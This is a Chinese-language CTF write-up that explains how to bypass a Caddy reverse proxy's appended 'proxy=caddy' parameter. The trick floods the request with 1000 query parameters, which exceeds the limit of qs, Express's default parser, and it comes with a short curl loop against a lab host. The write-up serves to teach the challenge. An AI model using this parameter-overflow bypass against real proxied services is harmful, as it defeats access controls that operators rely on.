 #Web #caddy #nodejs #express #qs 

碎碎念
---
这题是CrackTC的心理阴影qaq，~~抄袭自~~灵感来源于日本人主办的一个CTF（忘了名字）的签到题，算是第一次打正式比赛，然后因为这题爆零了wuwuwu

---

`Caddyfile`
---

```c
:80 {
    rewrite * {path}?{query}&proxy=caddy
    reverse_proxy 127.0.0.1:2333
}
```

这里是caddy作为反向代理服务器，把请求分发给2333端口之前在url的结尾加上了`proxy=caddy`

`index.js`
---

```js
require("express")()
    .get("/", (request, response) => {
        request.query.proxy.includes("caddy")
            ? response.status(400).send("I don't like caddy:(")
            : response.send(`\\/\\/\\/caddy wa saikou!\\/\\/\\/<br>${process.env.FLAG ?? "Spirit{fake-flag-qwq}"}`);
    })
    .listen(2333, "0.0.0.0")
```

这里是node作为后端服务器监听2333端口，如果url查询中的proxy参数包含caddy就无法获得flag

因为docker镜像只expose并映射了80端口~~（frp好像也只通了80端口）~~，所以想要直接访问2333端口是行不通的～

在这种情况下，最有可能取得突破的地方就是双方对数据的不同解读啦（利用数据一致性上的漏洞或许算是比较常见的思路）

我们尝试阅读express关于url query的[文档](https://expressjs.com/en/4x/api.html#req.query)

> The value of this property can be configured with the [query parser application setting](https://expressjs.com/en/4x/api.html#app.settings.table) to work how your application needs it. A very popular query string parser is the [`qs` module](https://www.npmjs.com/package/qs), and this is used by default.

[ljharb/qs](https://github.com/ljharb/qs)

在README中可以找到这样一段话

> The depth limit helps mitigate abuse when **qs** is used to parse user input, and it is recommended to keep it a reasonably small number.
> 
> For similar reasons, by default **qs** will only parse up to 1000 parameters.

默认情况下qs会限制1000个参数，多复制粘贴几遍就能把最后的caddy顶掉

也不能太长，不然也要罢工啦～

```shell
query='?proxy=none'

for i in {1..999}
do
    query=$query'&proxy=none'
done

curl 'http://<host>:<port>/'$query
```

![](<./img/Pasted image 20230509204553.png>)
